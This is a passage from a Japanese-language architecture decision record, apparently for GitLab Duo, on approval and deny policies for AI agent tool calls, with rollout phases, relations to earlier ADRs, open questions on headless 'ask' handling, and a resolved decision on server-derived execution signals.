| 1（#21877、スコープを再定義） | 同じフック、同じスキーマ、同じマージ関数によるユーザー記述型ポリシー | フェーズ 0 がリリース済み |
| 後日（時期未定） | 管理者が記述する引数レベルのガバナンス上限: `ai_tool_rules.tool_arguments` に対する glob/正規表現の `match_type`、GIN インデックス、具体性に基づく優先順位 | なし — ローカルポリシーの上に追加する上限であり、阻害要因にはならない |

## 7. 既存 ADR との関係 {#7-relationship-to-existing-adrs}

| ADR | 関係 |
|---|---|
| [006 — ツール承認](006_tool_approval.md) | 変更なし。セッション承認の仕組みとケイパビリティのネゴシエーションをそのまま再利用します（`deny` アクションで拡張）。 |
| [009 — AI ガバナンス](009_ai_governance.md) | モデルは変更せず、強制適用を強化します（§4.1）。ツール名レベルの上限を、引き続きローカルポリシーの上に置きます。 |
| [011 — 構造的な安全策とバリデーターの非推奨化](011_command_validator_deprecation.md) | 置き換えるのではなく、依存します。`CommandPatternMatcher` と、`*` がフラグを除外する構造的な安全策を変更せず再利用します。この ADR が変更するのは、初日に*何がポリシーを構成するか*（配布され、お客様が上書きできるデフォルト）と、ユーザーによる記述が*いつ*必要になるか（フェーズ 0 ではなくフェーズ 1）だけです。ADR-011 のバリデーター廃止手順は、このロールアウトによって最終的に安全に完了できるようになる後処理です。 |

**以前の「ADR-009 v2: 延期されたケイパビリティ」ドキュメントの扱い**（この改訂を導入した変更で削除。その内容には決定済みのアーキテクチャがなく、ADR の形式に合いませんでした）:

- *ユーザーレベルの自動承認へのオプトイン*（項目 7） — 一般化して**本 ADR で提供します**。委任の同意設定とローカルポリシーは、まさに「管理者がユーザーレベルの設定のロックを解除し、ユーザーが管理者ポリシーの範囲内で設定を行う」ことです。当初想定していた `user_id` をスコープとする `ai_tool_rules` の行は不要です。
- *glob/正規表現による引数の一致判定、GIN インデックス、具体性に基づく優先順位*（項目 1、2、5） — 上記のロールアウト表の「後日」として引き継ぎます。将来の、任意の引数レベルのガバナンス上限です。
- *監査のみのモード、コンプライアンスのプリセット、拒否されたツールのプロンプトからの除外、インスタンスレベルのルール、traversal-ID クエリの最適化*（項目 3、4、6、8、9） — 自動モードとは無関係なガバナンスエンジンのバックログです。ADR に置くのではなく、追跡用の Issue に移します。

## 8. 未解決の質問 {#8-open-questions}

1. 初期デフォルトポリシーには、具体的に何を含めるべきでしょうか。各ツール（`git`、`npm`、`docker`、`curl`、`make`）について、よく使うサブコマンドを `allow`、`ask`、`deny` のどれにするか見直す必要があります。内部で草案を作成済みで（カテゴリ A/B の分析。廃止予定のバリデーターに照らして検証済み）、v0 のリリース前にポリシーの担当チームが承認する予定です。
2. `denied?` の強制適用（§4.1）は、実行頻度の高い経路で同期的に行う必要があるでしょうか。それとも、すでに `approved?` をチェックしている箇所で、新しい通信の往復なしにチェックできるでしょうか。（おそらく後者です。同じ呼び出し箇所に分岐を追加します。）
3. ヘッドレスモードでの `ask` の意味: `duo run` では、ポリシーに一致せず進んできた `ask`（または同意の欠如によって格下げされたフックの `allow`）に応答する人間がいません。ツール呼び出しを明示的に失敗させる（安全で推奨）か、スキップして続行するかを決めます。通知なしに `allow` へ変えてはいけません。
4. セッション途中の取り消し: 同意設定をオフにすると、*新しい*ワークフローでの自動承認は停止しますが、実行中のセッション内でポリシーによる承認を停止する緊急スイッチはありません。フェーズ 0 では許容できますか。延期するにしても、範囲を定める価値があります。
5. **ローカル以外の環境のためのサーバー側の委任評価器。** 委任の仕組み（PreToolUse フック / Rego）は現在クライアント専用で、サーバー側で検証しないことが明示されています。Web UI や CI の自動モードには、人間なしで `ask` を解決する、*サーバーが信頼できる*方法が必要です。評価器をどこに置くか（JWT 発行前の Rails か、`approval_required` 時の DWS か）を決め、`background_effective` の `ask` → `allow` を再検討します。委任された承認者が*存在する*無人環境では、`ask` は通知なしに `allow` になるのではなく、その承認者へ送るべきです。
6. **`local_access` 内でのローカル環境ごとのポリシー。** Web 環境は独立した `web_access` 列を維持するため（解決済みの決定事項を参照）、Web は統合**しません**。まとめたままなのは*ローカル*環境で、`ide`/`cli`/`chat` はすべて単一の `local_access` 列に解決されます。現在の信頼性の修正には適切ですが、将来「IDE は X を実行できるが、無人の CLI はできない」といったポリシーには、再度の分割が必要になります。見落としではなく、意識的に受け入れたトレードオフであることを確認してください。

**解決済みの決定事項**

- *2 つの軸を区別して維持し、両方をサーバー由来にします（コードのマッピングを検証した後、2026-08-20 に解決。[!250574](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/250574)のスレッドを参照）。* アーキテクチャは、一方を他方へ統合せず、**サーバーが導出する 2 つの独立したシグナル**を維持します。`execution_mode`（2 値の `client`/`background`）は、権限制限を制御する信頼/対話性のシグナルで、`surface`（3 値の `web`/`local`/`background`）は適用するポリシー列を選択します。`web_access` は**独立した列として保持します**。対話的な Web UI は、`web` の利用環境（`ask` をサポートする `web_access` に対応）と、`client` の execution_mode（制限用）として解決します。`local_access` に統合することは**なく**、利用環境の選択を 2 値の `execution_mode` に集約することも**ありません**。残る実装作業は、Web UI について、偽装可能なクライアントの `environment` や `caller_can_execute` を使わず、両方のシグナルをサーバー由来にすることです。[gitlab#618761](https://gitlab.com/gitlab-org/gitlab/-/issues/618761)で追跡しています（§3.3、§3.4 を参照）。
